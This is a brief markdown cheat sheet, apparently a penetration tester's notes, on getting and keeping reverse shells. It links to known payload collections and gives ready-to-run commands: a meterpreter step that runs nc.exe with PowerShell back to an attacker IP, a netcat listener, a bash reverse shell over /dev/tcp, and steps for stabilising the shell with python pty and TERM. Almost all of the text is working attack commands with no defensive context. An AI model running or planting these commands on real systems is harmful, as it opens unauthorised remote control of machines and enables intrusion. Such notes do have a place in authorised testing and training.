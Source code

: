 # Reverse shell

## Links

- [revshells.com](https://www.revshells.com/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [PHPRevShell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

## Windows reverse shell with nc using meterpreter

```sh
execute -f nc.exe -a "-e powershell.exe $IP 1234"
```

## Listener

```sh
rlwrap nc -lnvp 1234
```

## Bash reverse shell

```sh
bash -c 'bash -i >& /dev/tcp/$IP/1234 0>&1'
```

## Stabilize shell

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Set TERM env to clear

```sh
export TERM=xterm
```
